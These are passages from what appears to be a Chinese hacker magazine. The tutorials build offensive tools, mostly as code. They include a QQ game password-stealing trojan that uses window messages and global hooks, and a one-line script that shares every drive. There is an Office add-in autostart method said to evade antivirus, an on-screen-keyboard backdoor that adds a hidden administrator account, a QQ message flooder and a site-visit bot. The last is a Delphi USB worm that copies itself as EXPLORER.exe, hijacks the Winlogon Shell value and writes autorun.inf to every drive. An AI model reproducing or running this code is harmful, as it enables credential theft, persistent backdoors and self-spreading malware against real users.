在此之前，我给大家介绍一下 VB 语言里的几句代码。首先是“On Error”系列语句（如“On Error Goto ...”“On Error Resume Next”），用于错误处理；“Dim”用于定义变量；“For X=m To n”用于循环计数，配合“Next X”结束循环。通过这些基础语句，我们可以把内部代码转化并利用起来。

最后要提到的是“Shell”和“End”。Shell 的作用就是运行某个程序（类似“运行”），例如运行 cmd 或 bat；End 则用于立即结束程序。综合上述，我们把这个一句话开共享的代码整理如下：

```
On Error Resume Next: Dim A: For A = 67 To 90: Shell "net share " & Chr(A) & "=" & Chr(34) & Chr(A) & ":" & Chr(34): Next A: End
```

这里的含义是从 67 循环到 90，循环执行一个 CMD 命令；67-90 对应 ANSI 中的 C 到 Z，使用 Chr(A) 转换后依次对各盘符执行 `net share` 共享。该语句可放入 VB 中的 Form_Load 事件，或保存为 VBS 脚本；如果使用 VB/VB.NET 制作，则可生成 Exe 可执行文件。


对于生成后的程序我们查看其属性，发现大小才 16K，而 VBS 才 130 多字节。通过数据我们可以看出，如此制作的小马在体积上有着绝对优势。本文所讲的都是 VB 的基础知识，希望对于那些想学习编程技术入门的朋友们能有所帮助。

## 30秒使用E语言打造端口扫描工具

无敌小龙（张博）


看了这么多期的杂志，相信读者们对于E语言都有了一个初步的了解吧，也认识到了E语言的便捷和强大。本文我们就继续来学习E语言的编程使用。对于X_SCAN、流光等扫描工具，小菜们都非常羡慕吧，不过这些工具都是别人编写好的，我们只有使用的份儿。那我们能不能也使用E语言编写一个属于自己的扫描工具呢？下边就跟我一起来学习吧！

### 一、计时开始

在开始前的十秒内，我先给大家介绍一下端口扫描工具的原理。假设目标主机开放了很多端口，那么我们要如何知道对方打开了哪些端口呢？我们可以去连接它的每一个端口，如果连接成功的话，就说明对应的端口是开放的！

在E语言的工具箱中有一个很实用的工具，那就是“客户”组件，它可以实现连接目标主机的目的。我们要用到的方法就是连接()，它有两个参数：第一个是目标服务器的IP地址或其域名，第二个参数就是要连接到的目标主机端口。比如我们要连接黑客X档案网站服务器的80端口，就可以这样写：客户1.连接("www.hackerxfiles.net", 80)。

### 二、第十秒

我们再来认识一个条件语句和一个循环语句。先来看如果真()语句，它就是用来判断语句后面括号中的条件是否成立的。

比如我们要判断是否成功地连接到了服务器的80端口，就可以这样写：如果真(客户1.连接("www.hackerxfiles.net", 80))。

```e
变量循环首(,,,)
...
变量循环尾()
```

```e
变量循环首(100,1000,1,a)  // 其中a可以省略
...
变量循环尾()
```

聪明的读者应该已经猜到它的用法了：这条语句中的第一个参数是开始的循环值，第二个参数就是循环结束的值，第三个参数是每次递增的值，这里为1，表示遍历从100-1000所有的整数，第四个参数a记录循环次数的变量。因为用到了变量，由于在E语言中变量都是需要声明的，所以我们在使用前需要声明一个变量a。


第二个十秒过去了，现在我们的理论基础已经有了，还等什么，开始实战！

### 三、第二十秒

在工具面板上找到编辑框控件、按钮控件和客户组件，如图1。在窗口编辑器中放置好相关的控件，如图2。修改编辑框一的内容属性为127.0.0.1，如图3。


修改按钮的标题属性为“扫描”，如图4。最后再放上一个列表框控件。


这样主界面就已经完成了，我们来编写代码。双击刚才的按钮，来到代码窗口。输入我们的变量循环首()语句，E语言会自动补齐剩下的程序代码，代码如下：

```e
变量循环首(到整数(编辑框2.内容), 到整数(编辑框3.内容), 1, a)
...
变量循环尾()
```

因为通过“编辑框2.内容”来获得的是一个文本型的数据类型，而我们现在作为循环的是一个整数型数据（端口是整数型），所以就要用到整数()函数，把获得的文本型数据类型转换为整数型，如图5。


接下来就是使用客户控件来连接目标主机的端口了，代码如下：

```e
如果真(客户1.连接(编辑框1.内容, a))
    列表框1.加入项目("开放的端口" + 到文本(a))
如果真结束
处理事件()
```

> 小知识：E语言中处理事件()是什么？  
> 也就是暂时让出控制权，以便让Windows操作系统有机会处理其它的诸如用户键盘或鼠标输入等事件，直到操作系统处理并发送完程序队列中的所有事件后命令才会返回。它相当于VB中的DoEvents语句。

现在我们的端口扫描器就可以正常工作了，不过为了做到可视化，我们需要把当前扫描的端口显示出来，这样可以让用户知道我们的程序正在运行。要想实现这点，可以加入下面这句代码：启动窗口.标题 = "当前扫描" + 到文本(a)。在标题、内容等属性中的数据类型一般是文本型数据，所以要把整数型数据转换过来，这样才可以正常显示。

调试和编译过程中会报错。最终完成的代码如图6所示。


按F5运行程序，在IP输入框中输入www.winsock.cn，后面的端口分别填写70、100，然后点“扫描”开始连接和测试端口的开放情况，如图7，已经正常扫描出开放了80端口。


### 四、总结

其实在E语言中是有一个检测端口()函数的，不过为了让大家对端口扫描程序能够有一个更深刻的理解，所以我就用到了客户这个控件来实现扫描功能。

> 小知识：检测端口()函数  
> 第一个参数就是IP地址，第二个参数为需要检测的端口，加上如果真()语句的话就可以实现如果真(客户1.连接(编辑框1.内容, a))的功能了！

## 盗Q剖析——腾讯QQ音速盗号木马

QQ的攻与防一直是菜菜们十分关注的话题，值得称道的是QQ2007版本的安全性有了显著提高，在技术方面应用了私有协议、加密传输、自绘控件等；而在安全机制方面则提出了第二代密码保护、异地登录告警等。另外其引入的QQ医生还集成了常见木马查杀、系统漏洞侦测和修补等，更是将关注的高度提升到了系统层次。

经济学上的“木桶效应”同样也可以应用在网络安全上：木桶盛水的多少不取决于最长的那块木板，而是取决于最短的那块木板。QQ用户账号的安全不仅取决于其安全策略的最好部分，而取决于QQ整个增值服务中安全最为薄弱的环节。近段时间我对QQ推出的一款比较热门的网络游戏——QQ音速，做了一些研究和分析，发现这就是QQ整个安全防护措施中的一个短木板所在。

我们打开QQ音速（以下简称QQR2）的登录界面，很明显可以看出来是使用QQ帐号和密码进行登录的，如图2。


经过观察，这个界面对于登录也没有诸如自绘控件、验证码等保护措施。针对这个特点，可以采用键盘记录和Windows编辑控件漏洞来获取用户的登录帐号和密码。对于键盘记录这种方式本文就不多提了，因为如何在一大堆字符中识别出QQ号和密码是件很麻烦的事，所以本文将主要采用后一种方法。

我先来简单介绍一下Windows编辑控件漏洞。在Windows下进行登录时，程序员通常会选取编辑控件作为输入框，并在某个事件后（比如点击“登录”按钮）来获取编辑控件中的值作为登录信息。但倘若从外部程序向该编辑控件发送一个获取编辑控件内容的消息，如WM_GETTEXT或EM_GETLINE的话，就能够轻易得到想要的内容。木马程序正是利用编辑控件的这个特性。在输入密码时，为了安全通常都会以星号来屏蔽用户输入的密码；如果在自己编写的应用程序中需要用户输入密码，通常的选择就是使用编辑控件并设置其Password属性。若发现该编辑控件具有ES_PASSWORD属性时，则通过上述方法不能直接获取密码，但是可以取消掉控件的ES_PASSWORD属性，再发送WM_GETTEXT或EM_GETLINE消息，这样Edit框中的内容就一目了然了。

整个分析和代码摘要部分如下，木马的开发环境为Windows XP + VC6.0 SP3 + Windows SDK。

### 一、添加GetPasswd函数，判断前台窗口是否是QQR2

```cpp
HWND g_hWnd = NULL;            // 窗口句柄
char sTitle[255];              // 窗口名称
CString ss;                    // 窗口名称，方便关键字查找
DWORD QQPID;
HWND Husername = NULL;
HWND Hpassword = NULL;
HWND Htmp = NULL;

g_hWnd = ::GetForegroundWindow();
GetWindowThreadProcessId(g_hWnd,&QQPID);   // 由进程ID获取进程名

ProcessIDToName(sTitle,QQPID);             // 由进程ID取得应用程序的名字
ss = sTitle;
ss.MakeLower();

// 取得该进程窗口的标题
::SendMessage(g_hWnd,WM_GETTEXT,255,(LPARAM)sTitle);
ss=sTitle;
int n=ss.Find("QQ",0);
int m=ss.Find("登录",0);
```

### 二、若是QQR2登录窗口则查找该窗口中的username控件和password控件

我们使用Spy++来查看窗口和控件的层次关系，所需要的username控件和password控件在第二个地址为00090346的对话框里面，如图3。这里有三个小技巧，也就是使用两个FindWindowEx：第一个参数即为父窗口，第二个参数则不同。查找第一个窗口使用NULL，去查找第二个窗口则使用已经查找到的第一个窗口句柄，即意味着从这一个开始查找。大家可以参看下面代码的第4、5行。另外获取用户名和密码的过程在注释中我已经写得很清楚了。

```cpp
if (n>=0||m>=0){
    // 查找登录窗口句柄
    Htmp = FindWindowEx(g_hWnd,NULL,"#32770",NULL);
    Htmp = FindWindowEx(g_hWnd,Htmp,"#32770",NULL);
    if (Htmp != NULL){

        // 获取登录用户名
        Husername = FindWindowEx(Htmp,NULL,"ComboBox",NULL);
        Husername = FindWindowEx(Husername,NULL,"Edit",NULL);
        if (Husername){
            ...
        }
    }
}
```

```cpp
::SendMessage(Husername, WM_GETTEXT, 255, (LPARAM)sTitle);
AMLOGINFO(sTitle);

// 获取密码
Hpassword = FindWindowEx(Htmp, NULL, "Edit", NULL);
Hpassword = FindWindowEx(Htmp, Hpassword, "Edit", NULL);
Hpassword = FindWindowEx(Htmp, Hpassword, "Edit", NULL);
Hpassword = FindWindowEx(Htmp, Hpassword, "Edit", NULL);

// 获取窗口风格
LONG lStyle = ::GetWindowLong(Hpassword, GWL_STYLE);

// 如果设置了 ES_PASSWORD 属性
if (GetWindowLong(Hpassword, GWL_STYLE | ES_PASSWORD))
    ::PostMessage(Hpassword, EM_SETPASSWORDCHAR, 0, 0);

::SendMessage(Hpassword, WM_GETTEXT, 255, (LPARAM)sTitle);
AMLOGINFO(sTitle);

::PostMessage(Hpassword, EM_SETPASSWORDCHAR, '*', 0);
```


图4

```cpp
(LPCTSTR)szCaption);
glhPrevTarWnd = glhTargetWnd; // 保存目标窗口
}
}
}

// 继续传递消息
return CallNextHookEx((HHOOK)glhHook, nCode, wParam, lParam);

// 键盘钩子回调函数
LRESULT_CALLBACK KeyboardProc(int nCode, WPARAM wParam, LPARAM lParam)
{
    if (wParam == VK_RETURN && lParam == 0) {
        GetPasswd(hProLog);
    }
    return CallNextHookEx(hKeyHook, nCode, wParam, lParam);
}
```

### 三、添加全局钩子，监视用户点击“登录”按钮的操作

这里SetWindowsHookEx和UnhookWindowsHookEx略去。

```cpp
// 键盘钩子监视回车按钮
hKeyHook = (HHOOK)SetWindowsHookEx(WH_KEYBOARD,
    (HOOKPROC)KeyboardProc,
    theApp.m_hInstance,
    0);

// 鼠标钩子监视点击登录按钮
hMouseHook = (HHOOK)SetWindowsHookEx(WH_MOUSE,
    (HOOKPROC)KeyboardProc,
    theApp.m_hInstance,
    0);

// 鼠标钩子回调函数
LRESULT WINAPI MouseHookProc(int nCode, WPARAM wParam, LPARAM lParam)
{
    LPMOUSEHOOKSTRUCT pMouseHook = (MOUSEHOOKSTRUCT FAR*)lParam;
    if (nCode >= 0) {
        if (wParam == WM_RBUTTONUP) {
            HWND glhTargetWnd = pMouseHook->hwnd;
            HWND ParentWnd = glhTargetWnd;
            while (ParentWnd != NULL) {
                glhTargetWnd = ParentWnd;
                ParentWnd = GetParent(glhTargetWnd);
            }
            if (glhTargetWnd != glhPrevTarWnd) {
                char szCaption[100];
                GetWindowText(glhTargetWnd, szCaption, 100);
                if (IsWindow(glhDisplayWnd)) {
                    SendMessage(glhDisplayWnd, WM_SETTEXT, 0, (LPARAM)szCaption);
                }
            }
        }
    }
}
```

关于木马的进程隐藏、文件隐藏、端口隐藏、发信等功能由于时间原因没有编写，好在网上有许多制作好的代码可以引用，本文只是重点探讨木马的信息获取部分。

我在本机上对这个木马测试了一下，过程如下：运行木马 -> 运行QQ普通版 -> 登录游戏 -> 退出游戏 -> 查看木马日志。结果如图4所示，证明了关于“短木板”的猜想是正确的。腾讯公司在安全方面的投入已经取得了很好的效果，但树大招风，千万不能忽视了QQ系列里面的短木板哦。

小编点评：木马的神秘色彩就这样被作者揭开了。虽然仅仅是木马的冰山一角，也让大家了解到程序漏洞及木马的原理。有的时候问题就出在这些看似不起眼的地方，只要我们留心观察，总能找到其中的一二。

### 黑客木马术语

#### 什么是端口复用？

在系统已经开放的端口上进行通讯，只对输入的信息进行字符串匹配，不对网络数据进行任何拦截、复制类操作，所以网络数据的传输性能丝毫不受影响。建立连接后服务端程序占用极少系统资源，被控制后不会在系统性能方面有任何察觉（后门木马必备技能）。

## 重磅！程序自启动的新思路

## 揭秘Office插件的制作全过程

杨若瑜

2008年某月某日，某学校财务室突然丢失财务数据库……经过严密的分析和推理，最终发现异常与Word加载的插件有关。文章由此引出Office插件机制在自启动场景中的利用思路，并说明其潜在风险与技术背景。


作者指出：由于Office在大量终端中预装，插件技术一旦被不当使用，影响面巨大。随后进入实操步骤：创建Visual Basic工程，选择“外接程序”，并设置工程名、Connect对象名称及描述等关键字段。


这时候，我们该给这个设计器填入代码了……在激活设计器窗口状态下，打开“代码窗口”，即可看到代码编辑区域，然后输入示例代码。

```vb
Option Explicit
Private Sub AddinInstance_OnConnection(ByVal Application As Object, _
    ByVal ConnectMode As AddInDesignerObjects.ext_ConnectMode, _
    ByVal AddInInst As Object, custom() As Variant)
    On Error Resume Next
    MsgBox "插件已经启动"
    Shell "Notepad.exe", vbNormalFocus
End Sub
```

文中对代码逐行解释：`Option Explicit`用于变量约束，`OnConnection`是插件载入时触发过程，`On Error Resume Next`用于容错；`MsgBox`和`Shell`分别用于弹框与启动程序。接着要求在“工程→引用”中添加与Office相关组件。


最后将其编译为DLL文件，插件主体即完成；但DLL本身不能独立运行，还需进一步配置才能形成完整的自启动效果。

那么我们就需要再编写一个程序，能将这个 DLL 文件注册到系统，并且能通过修改注册表来达到 Office 自动启动这个插件的目的。

这个程序就叫做“引子”。按照图 5 所示，我们通过修改 BorderStyle 属性，让最小化和最大化按钮消失，并且添加两个 CommandButton，一个叫做“添加”，另一个叫做“删除”。

紧接着，我们在声明区域填入如下的代码：

```vb
Option Explicit

Private Declare Function RegCreateKeyEx Lib "advapi32.dll" Alias "RegCreateKeyExA" (...)
Private Declare Function RegSetValueEx Lib "advapi32.dll" Alias "RegSetValueExA" (...)
Private Declare Function RegDeleteKey Lib "advapi32.dll" Alias "RegDeleteKeyA" (...)
Private Declare Function RegCloseKey Lib "advapi32.dll" (...)

Private Const HKEY_CURRENT_USER = &H80000001
Private Const KEY_ALL_ACCESS = &H1F003
Private Const REG_CREATED_NEW_KEY = 2
Private Const REG_SZ = 1
Private Const REG_DWORD = 4
Private Const PROGID As String = "..."
Private Const DESCRIPTION As String = "VB5/6 COM Add-In Module"
Private Const LOADBEHAVIOR As Long = 3
Private Const SAFEFORCOMMANDLINE As Long = 0
```

以上这些代码是分别声明 RegCreateKeyEx、RegSetValueEx、RegDeleteKey 和 RegCloseKey 四个注册表编程函数的代码，紧接着就是几个常数的声明代码。PROGID 填写一定要和我们刚才做的工程相符。

下边我们编写比较关键的注册表操作代码：

```vb
Public Sub RegisterOfficeAddin(sTargetApp As String)
    Dim sRegKey As String
    Dim nRet As Long, dwTmp As Long
    Dim hKey As Long

    sRegKey = "Software\Microsoft\Office\" & sTargetApp & "\Addins\" & PROGID
    nRet = RegCreateKeyEx(HKEY_CURRENT_USER, sRegKey, 0, vbNullString, 0, KEY_ALL_ACCESS, 0, hKey, dwTmp)
    ' ...
End Sub
```

```vb
' dwTmp)
If nRet = 0 Then
    If dwTmp = REG_CREATED_NEW_KEY Then
        Call RegSetValueEx(hKey, "FriendlyName", 0, REG_SZ, ByVal PROGID, Len(PROGID))
        Call RegSetValueEx(hKey, "Description", 0, REG_SZ, ByVal DESCRIPTION, Len(DESCRIPTION))
        Call RegSetValueEx(hKey, "LoadBehavior", 0, REG_DWORD, LOADBEHAVIOR, 4)
        Call RegSetValueEx(hKey, "CommandLineSafe", 0, REG_DWORD, SAFEFORCOMMANDLINE, 4)
    End If
    Call RegCloseKey(hKey)
End If
End Sub

Public Sub UnRegisterOfficeAddin(sTargetApp As String)
    Dim sRegKey As String
    sRegKey = "Software\Microsoft\Office\" & sTargetApp & "\Addins\" & PROGID
    Call RegDeleteKey(HKEY_CURRENT_USER, sRegKey)
End Sub
```

其中 RegisterOfficeAddin 和 UnRegisterOfficeAddin 分别是添加和删除 Office 插件的自定义函数，在括号里声明的 sTargetApp 是 Office 软件的名称。把名称和注册表键名拼接组合后，把值传递给 sRegKey 变量。添加的代码是键值建立成功再写返回到 nRet 变量中；如果允许写入，那么就在这个键下继续建立 FriendlyName、Description、LoadBehavior 和 CommandLineSafe，最后使用 RegCloseKey 来关闭当前打开的键。而删除功能的代码就更简单了，仅仅使用一个 RegDeleteKey 函数就将整个键删除。

但是上面这些毕竟只是自定义函数，写自定义函数的目的是为了避免代码重复。在具体应用上，还得放到按钮的过程里进行应用。比如，我在 Command1 中这么填写：

```vb
Shell "regsvr32 /s Addin.dll"
RegisterOfficeAddin "Access"
RegisterOfficeAddin "Excel"
RegisterOfficeAddin "FrontPage"
RegisterOfficeAddin "Outlook"
RegisterOfficeAddin "PowerPoint"
RegisterOfficeAddin "Word"
```

第一行就是使用 Shell 函数打开 RegSvr32 对我们刚才所制作的 Addin.dll 进行注册，这里面我多加了一个 `/s`，是为了让它沉默地运行。后面的全都是使用上面我们所写的 RegisterOfficeAddin 函数对各个 Office 产品的加载项进行注册。而 Command2 上的代码则和 Command1 的大致相同，只不过 RegisterOfficeAddin 换成了 UnRegisterOfficeAddin 函数罢了，详细的代码请看光盘。

最后把这个程序编译一下，和刚才所写的 DLL 放在同一个目录下，执行那个可执行程序（放不放在同一目录下，与你填写的使用 RegSvr32 注册的路径有关）。点击“添加”按钮，再打开 Word。正如预料，Word 显示了一个 MsgBox 对话框，并在点击“确定”之后执行了记事本程序，如图 6。换作其它的 Office 组件，也如此显示，看来这个问题还真不小。

经过以上的测试，这种自动方法可以完全绕过最新版本的杀毒软件和防火墙。目前，没有任何防护软件可以阻止程序向注册表的这个位置写入数据，也就是说，这是一个非常大的安全隐患。它并非病毒，也非恶意代码，只要是已被启动的程序在免杀方面制作得够好，“记事本”完全可以变成全副武装的木马，而且除了 Vista 启动了 UAC，谁也不能阻拦它的执行。

（本程序源代码和示例程序已收录到光盘中）

## 小编点评：

这似乎是一个很可怕的漏洞哦，不过话说回来，微软的 Word/Office 出问题也不是一天两天了，一出问题就是大漏洞。

## 低调的屏幕键盘后门

朱建良 & 张焰

### 一、前言

自从粘滞键后门被发现以来，很多人入侵靶机后都会留下一个粘滞键后门，因为这个后门是在登录时直接按 5 次 Shift 键就直接进入系统，管理员很难发现，而且又不会留下什么痕迹，方便又安全。不过树大招风啊，很多管理员已经注意了这个漏洞，下面是我找到的一个（图1）。

既然这样，那还有没有其它程序可以利用呢？当然有了，我们还可以利用三个程序来实现一样的功能，分别是“辅助工具管理器”“放大镜程序”“屏幕键盘程序”。这三个程序也是可以在 Windows 登录的时候被调用出来的，方法是终端登录的时候使用 Ctrl + Alt + Break 切换到全屏模式，然后使用 Windows 键 + U 键调出辅助工具管理器，再调出放大镜和屏幕键盘程序，如图2、图3。

所以使用这几个程序制作后门的效果与粘滞键后门的效果是一样的，而且由于目前提到的较少，知道的人还不是很多，因为隐蔽性还算不错，接下来我们要做的是如何隐藏地利用这个后门。

### 二、查找程序位置

查找上面三个程序的位置使用 `procexp.exe` 是最好不过了，因为这个进程管理工具会把最后启动的进程放在最后面，方便我们查找。在运行 `procexp.exe` 后使用 Windows 键 + U 快捷键调出辅助工具管理器。

按 5 次 Shift 后出来了一个输入口令的密码框（当然这也有可能是入侵者留下的后门，只是这样的后门太容易让管理员发现了）。

按键调出“辅助工具管理器”，很快就能发现其程序名为 `utilman.exe`，如图4。查找位置也很方便，直接在命令行下输入 `dir /a/s utilman.exe`，就可以找到程序位置，如图5。我们来实现秘密替换上面的其中一个程序，来实现隐藏后门。

```pascal
begin
  winexec(pchar('net1 user zi zi /add'), sw_hide); // 添加用户
  winexec(pchar('net1 localgroup administrators zi /add'), sw_hide); // 把用户加入到管理员组
  exit;
end
else
begin
  winexec(pchar('c:\windows\system32\osk1.exe'), sw_show); // 若 F6、F7 按键状态不符合要求则正常运行屏幕键盘程序
  exit;
end;
```

### 三、编程实现

有了上面的基础，我们可以使用编程的方式来实现我们后门的功能，编程工具是 Delphi，具体代码如下：

```pascal
program Project2;
{$APPTYPE CONSOLE}
uses
  SysUtils, windows;
begin
  if getkeystate(VK_F6)<>0 then
  begin
    if getkeystate(VK_F7)<>0 then
    begin
      winexec(pchar('net1 user zi /del'), sw_hide); // 删除用户
      winexec(pchar('cmd.exe /c rd /s/q ...'), sw_hide); // 删除用户文件夹
      exit;
    end
    else
      ...
  end;
end.
```

`getkeystate` 函数把键盘按键看成开关，按一次开、再按一次关。比如 `getkeystate(VK_F6)` 用于检测 F6 状态，返回值在按键切换时变化。利用这一点可控制后门触发：在系统登录时按下 F6 后再运行屏幕键盘程序可添加用户；退出时按 F6、F7 后再调用程序可删除用户及其文件夹。

### 四、总结

原本想在后门里直接调用桌面程序或命令行程序，但在 WinXP 下测试不可行，后来只好使用添加账户、退出时删除账户的方法。覆盖 `osk.exe` 时，最好先把原文件备份到不易发现的位置用于恢复；后门删除后也可能因系统文件保护被还原。最后尽量减少后门运行痕迹。程序在 WinXP + Delphi7 下测试通过。

## 菜鸟也来做QQ炸弹

羽渐

遥想当年 QQ 还叫 OICQ 的时候，飘叶十指很风行。后来腾讯在安全方面做了针对性调整，相关功能越来越少。现在我们自己动手做一个具备发送“洪水消息”功能的小工具。

先了解实现原理：用 VB 的 `SendKeys` 模拟按键向活动窗口发送消息。在 QQ 中可用 `Alt+S` 发送。VB 中组合键符号：`+` 代表 Shift，`^` 代表 Ctrl，`%` 代表 Alt，因此可写作 `SendKeys "%s"`。为循环发送可使用 `Timer` 控件，通过 `Interval` 控制间隔。

在 VB6 中放置按钮、文本框和 `Timer`：`Command1` 为“开始”，`Command2` 为“停止”，`Command3` 为“退出”；`Text1` 定义发送内容，`Text2` 定义发送间隔。点击“开始”时在 `Timer1_Timer` 中循环发送，点击“停止”即可暂停。

```vb
Private Sub Form_Load()
  Text1.Text = "黑客X档案"
  ...
End Sub
```

## 黑客编程

```vb
' 黑客X档案
Text2.Text = 1000
End Sub

Private Sub Timer1_Timer()
  Dim str As String
  str = Text1.Text
  SendKeys str
  SendKeys "%s"
End Sub

Private Sub Command1_Click()
  Timer1.Interval = Text2.Text
  Timer1_Timer
End Sub

Private Sub Command2_Click()
  Timer1.Interval = 0
End Sub

Private Sub Command3_Click()
  End
End Sub
```

本程序在 VB6.0 下测试通过。由于使用 SendKeys 模拟按键效率不高，发送间隔建议在 1000 左右。该工具可用于潜水、提问、顶帖等场景，并附有一些编程规范建议。

## 百度空间互踩机——让我们的人气步步高

王玫玎

百度空间是一款不错的网络博客，新增交友型空间后人气竞争更明显。作者据此编写了一个互踩工具，并介绍其制作方法。

### 一、程序的工作原理

登录后进入他人空间会出现在“最近访客”模块中。工具通过读取文本中的 URL 并借助 Internet 控件循环访问，实现回踩。另有“搜索机”用于按行写入可访问 URL 文本供互踩机读取。

### 二、互踩机的制作

开发环境为 Windows XP SP2 + VB6.0 SP6。创建标准 EXE 工程并添加“Microsoft Internet Controls”，控件名为 WebBrowser，窗体布局如图2。

#### 1. 用户登录

通过上传的 HTML 登录页进行登录，在按钮事件中调用 `WebBrowser1.Navigate "http://..."` 访问目标页面，实现用户登录流程。

#### 2. 循环访问

程序核心为读取文本文件（如 txtfile.txt）并按行访问，配合 Timer 控件在“开始踩空间”按钮事件中执行循环访问。

```vb
If Text1.Text = "" Then
    MsgBox "TXT文本不能为空！"
    Exit Sub
End If
If Not IsNumeric(Text2.Text) Then
    MsgBox "间隔时间必须为数字！"
    Exit Sub
End If
Timer1.Interval = Text2.Text
Command1.Enabled = False
Command2.Enabled = False
Command3.Enabled = True
Text1.Enabled = False
Text2.Enabled = False
Timer1.Enabled = True
Open App.Path & Text1.Text For Input As #1
ts.Caption = "开始读取TXT文本...初始化..."
```

以上是对用户输入的简单判断，不符合条件便退出过程（Exit Sub）。上面的代码改变了程序控件是否影响用户输入的属性，为 False 时就是按钮灰色。`Timer1.Interval = Text2.Text` 用于设置 Timer 控件循环时间。最后打开 TXT 文本，启动 Timer 控件。

```vb
Dim a
Line Input #1, a
Me.WebBrowser1.Navigate a
ts.Caption = "正在访问空间..." & a
zz = zz + 1
DoEvents
If EOF(1) Then
    Command1.Enabled = True
    Command2.Enabled = True
    Command3.Enabled = False
    Text1.Enabled = True
    Text2.Enabled = True
    Timer1.Enabled = False
    Close #1
    ts.Caption = "完成任务，共踩空间" & zz & "个"
    zz = 0
End If
```

这里是读取一行文本，然后访问，接着使用 EOF(1) 判断文件指针是否到末尾。结束后恢复控件可输入属性。至此，简单的互踩机就完成了。

### 三、搜索机的制作

我们仍然使用 VB 进行编写，同时加入“Microsoft Internet Controls”控件，窗体整体布局如图 3 所示。

- 1. 空间搜索
- 2. 筛选导出

根据测试，百度空间搜索 URL 可拼接关键词参数。在“搜索”按钮事件中写入 `WebBrowser1.Navigate "http://hi.baidu.com/sys/search?...&word=" & Text2.Text & "..."`，其中 Text2 为关键词输入控件。

```vb
If Text2.Text = "" Or Text3.Text = "" Then
    MsgBox "填写不完整！"
    Exit Sub
End If
Dim wenben, a
wenben = Me.WebBrowser1.Document.body.innerText
Open App.Path & Text3.Text For Output As #1
Print #1, wenben
Close #1
wenben = ""
Open App.Path & Text3.Text For Input As #1
Do While Not EOF(1)
    Line Input #1, a
    If Left$(a, 12) = "hi.baidu.com" Then
        If wenben = "" Then
            wenben = a
        Else
            wenben = wenben + vbCrLf + a
        End If
    End If
    DoEvents
Loop
Close #1
Kill App.Path & Text3.Text
Open App.Path & Text3.Text For Output As #1
Print #1, wenben
Close #1
MsgBox "成功导出TXT文本到" & App.Path & Text3.Text
```

`Me.WebBrowser1.Document.body.innerText` 表示当前 WebBrowser 页面可复制文本内容。先写入文本，再逐行筛选前缀为 `hi.baidu.com` 的行，最后重新输出为结果文本，完成搜索结果导出。

### 四、完成测试

经过测试，效果良好，访问过空间的所有者会回踩。作者总结该思路虽不复杂，但确实可行，并提示相关资源已收录。

## Delphi下浅析U盘病毒的原理

关东刺客

### 一、U盘病毒的原理

自从“威金”“熊猫烧香”病毒以后，随着移动存储设备的日益成熟和普及，U盘病毒这一新型病毒，再一次让人们付出了沉重的代价。网络已经够乱的了，本来不想做这个打开潘多拉盒子的先知，但事实上这个目前已经不是什么太前卫的技术了，所以我才决定发表出来，与大家共同探讨。

U盘病毒，其实就是利用了 Windows 系列产品的自动播放漏洞来传播病毒的。制作过软件光盘的朋友都知道，只要在光盘的根目录下放一个可执行文件、一个 ico 文件，再有一个 autorun.inf 文件，在 autorun.inf 里面写入特定的脚本代码，光盘就能够实现双击后出现一个自己制作好的程序，也就是那个可执行文件；而单独看那个光盘的图标，就变成了 ico 文件的那个图标。而 U 盘病毒不需要让盘符的图标有任何改变，所以只要一个病毒和一个 autorun.inf 文件就可以运行了。

我们介绍一下 autorun.inf 的写法，如下：

```ini
[autorun]
OPEN=auto.exe
```

后来人们发现，在中了 U 盘病毒后，当使用鼠标右键单击任意一个盘符时（后期 C 盘不感染），在弹出的菜单中最上方是“auto”，而不是“打开”，于是聪明的朋友就将上面的代码又加以改进，如下：

```ini
[autorun]
OPEN=auto.exe
shell\open=打开
shell\open\Command=auto.exe
shell\open\Default=1
shell\explore=资源管理器
shell\explore\Command=auto.exe
```

这样，当电脑中病毒后，右键单击，最上面还是“打开”，而且不管你点“打开”还是“资源管理器”，都会运行病毒文件。

### 二、Delphi 下的实现方法

下面我们来看一下，如何在 Delphi 下实现 U 盘病毒的编写。首先来看一下 U 盘病毒需要实现的基本功能。

- 1. 要把本身复制到系统目录下；
- 2. 将病毒加入到系统启动项；
- 3. 复制本身到各个盘符根目录下；
- 4. 复制 autorun.inf 到各个盘符根目录。

我们打开 Delphi，程序会自动新建一个工程。首先进行第一步，把病毒复制到系统目录下（如 `C:\Windows\System32`）。先自定义函数获取系统目录：

```pascal
function SystemDir: string; // 获取系统目录 /windows/system32
var
  dir: array[0..MAX_PATH] of Char;
begin
  GetSystemDirectory(dir, MAX_PATH);
  Result := StrPas(dir);
end;
```

接着就是将本身复制到系统目录下了，过程如下：

```pascal
procedure copyF;
begin
  myname := ExtractFileName(Application.ExeName); // 获取本身文件名
  if Application.ExeName <> SystemDir + '\' + myname then
    CopyFile(PChar(Application.ExeName), PChar(SystemDir + '\' + 'EXPLORER.exe'), False); // 拷贝到 Windows\System32
end;
```

接下来是第二步，给病毒加入系统启动项。定义一个 regeditrun 过程，示例代码如下：

```pascal
procedure regeditrun;
var
  RegF: TRegistry;
  wndHandle, hDesktop: THandle;
  wndClass: array[0..50] of Char;
begin
  RegF := TRegistry.Create;
  RegF.RootKey := HKEY_LOCAL_MACHINE;
  try
    RegF.OpenKey('SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon', True);
    RegF.WriteString('Shell', 'explorer.exe, ' + 'EXPLORER.exe');
  except
    Exit;
  end;
end;
```

这样，注册表 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Shell` 的值就变成了 `explorer.exe, EXPLORER.exe`，病毒即可随 Windows 外壳进程启动。

第三步要做的就是把本身复制到硬盘的每个盘符下，我们依旧自定义一个过程：

```pascal
procedure copydisk;
var
  i: Integer;
begin
  myname := ExtractFileName(Application.ExeName);
  for i := 0 to 20 do // 从 D 盘开始
    if Application.ExeName <> Chr(Ord('D') + i) + ':\' + myname then
      try
        CopyFile(PChar(Application.ExeName), PChar(Chr(Ord('D') + i) + ':\' + 'EXPLORER.exe'), False);
      except
        Continue;
      end;
end;
```

第四步，复制 autorun.inf 到各个盘符根目录下，怎么做呢？在我们的窗体上加一个 ListBox1，并在它的 Items 属性里加入以下字符：

```ini
[autorun]
OPEN=EXPLORER.exe
shell\open=打开(&O)
shell\open\Command=EXPLORER.exe
shell\open\Default=1
shell\explore=资源管理器(&X)
shell\explore\Command=EXPLORER.exe
```

也就是 autorun.inf 的内容。现在要做的是把 autorun.inf 复制到各个盘符下，使双击硬盘后程序能够自动运行。修改 copydisk 如下：

```pascal
procedure copydisk;
var
  i: Integer;
begin
  myname := ExtractFileName(Application.ExeName);
